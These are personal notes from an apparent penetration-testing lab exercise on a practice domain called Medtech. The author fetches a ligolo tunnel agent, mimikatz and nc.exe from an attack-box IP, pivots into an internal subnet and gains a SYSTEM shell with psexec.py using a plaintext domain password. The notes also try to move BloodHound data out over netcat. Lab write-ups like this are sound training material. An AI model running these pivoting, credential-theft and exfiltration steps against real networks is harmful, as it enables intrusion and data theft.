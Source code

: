 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

Forgot to add here, that we need to run ifconfig to check and see if there are other connections to the box. this was done here, and the connection to the 172.16.201.xx network was found. 

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```

I ran a full scan of all targets last night but was taking a long time. In most cases, I would go thru the data I already had, and look for a box to narrow in on scanning again, As I have experience with this box already, I have gone from my old notes, and saw that I went into the .11 box next. I am avoiding using my old notes to continue on, I want to see what I see with autorecon, and running a narrowed scan on .11

I see that SMB ports are open, reminder to self, autorecon takes its time ill have to look into ways to speed it up if possible, also junks up the pipe so much I dont think I can try other things..

And my thoughts were right, auto reacon really junks the env. I dont know if i would use this in a live env. But for this it is good enough.. 

I am in .11 with

```bash
┌──(zell㉿kali)-[~/…/Medtech/results/192.168.201.121/exploit]
└─$ /usr/local/bin/psexec.py medtech.com/joe:Flowers1@172.16.201.11
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 172.16.201.11.....
[*] Found writable share ADMIN$
[*] Uploading file lQUmnaEf.exe
[*] Opening SVCManager on 172.16.201.11.....
[*] Creating service OhHA on 172.16.201.11.....
[*] Starting service OhHA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
 
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.

C:\Windows\system32>
C:\Windows\system32>
```

Starting as NT/ system, meaning I have the flag, lets look for creds, also, this is a domain machine, time for bloodhound i think


pulling sharphound and mimikatz

``` powershell
iwr -uri "http://192.168.45.228:8888/SharpHound.exe" -outfile "C:\Users\joe\Downloads\sharp.exe"
```

``` powershell
iwr -uri "http://192.168.45.228:8888/mimikatz.exe" -outfile "C:\Users\joe\Downloads\mimikatz.exe"
```

Starting sharphound

``` powershell
.\sharp.exe --CollectionMethods All
```

Trying to extract bloodhound results with nc

``` powershell
iwr -uri "http://192.168.45.228:8888/nc.exe" -outfile "C:\Users\joe\Downloads\nc.exe"
```

```powershell
.\nc.exe -l -p 4444>20231231101949_BloodHound.zip
```

well had no luck doing this last night, have found some other methods, picking back up



